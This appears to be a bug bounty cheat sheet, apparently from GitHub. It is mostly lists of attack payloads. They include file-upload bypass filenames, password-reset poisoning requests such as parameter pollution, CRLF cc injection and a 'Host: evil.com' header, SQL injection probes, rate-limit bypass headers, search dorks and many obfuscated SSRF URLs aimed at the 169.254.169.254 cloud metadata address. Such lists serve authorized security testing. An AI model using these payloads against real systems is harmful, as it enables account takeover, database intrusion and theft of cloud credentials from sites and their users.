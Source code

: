 # Bug Bounty Tips
---

## File Upload

`.htaccess`

`file.svg`

`file.SVg`

`file.png.svg`

`file.php%00.png`

`file.png' or '1'='1`

`../../file.png`

`file.'svg`

## Password Reset

```
POST /reset  
email=victim@tld.xyz&email=hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz&token=$BF$
```

```
POST /reset  
email=victim@tld.xyz&token=
```

```
POST /reset  
email=victim@tld.xyz&token=0000000
```

```
POST /reset  
email=victim@tld.xyz&token=nul
```

```
POST /reset  
email=victim@tld.xyz&token=nil
```

```
POST /reset  
email=victim@tld.xyz&token=HACKER-TOKEN
```

```
POST /reset  
email=victim@tld.xyz%0a%0dcc:hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz,hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz%20hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz|hacker@tld.xyz
```

```
POST /reset  
email=victim
```

```
POST /reset  
email=victim@tld
```

```
POST /reset  
Host: evil.com
```

```
POST /reset
{"email":["victim@tld.xyz","hacker@tld.xyz"]}
```

**Check body response for password token**

**Token generation: timestamp? userid? useremail? random?**

## SQL Injection

`/?q=1`

`/?q=1'`

`/?q=1"`

`/?q=[1]`

`/?q[]=1`

```/?q=1` ```

`/?q=1\`

`/?q=1/*'*/`

`/?q=1/*!1111'*/`

`/?q=1'||'asd'||'`

`/?q=1' or '1'='1`

`/?q=1 or 1=1`

`/?q='or''='`

```
username: '--' / "--"
password: '--' / "--"
```

## CORS

```python
if isBlocked("evil.com"):
  try("target.network")
  try("target.computer")
```

## Recon


`site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"`

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

- Check if email disclosed in response after inviting a user

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
```
